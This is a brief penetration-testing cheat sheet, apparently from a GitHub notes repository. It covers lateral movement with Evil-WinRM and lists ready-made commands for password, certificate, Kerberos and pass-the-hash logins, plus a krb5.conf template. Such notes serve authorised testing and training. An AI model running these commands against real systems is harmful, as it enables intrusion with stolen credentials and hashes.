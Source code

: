 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using foudn credentials with evil-winrm

## Authentication Methods

#### 1) Clear text Password

 - evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

 - evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

 - kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)

 - impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 - Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

[libdefaults]
    default_realm = DOMAIN.LOCAL
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
    }

[domain_realm]
    .domain.local = DOMAIN.LOCAL
    domain.local = DOMAIN.LOCAL

### 

 - evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

 - evil-winrm -i TARGET_IP -u USER -H NTLM_HASH
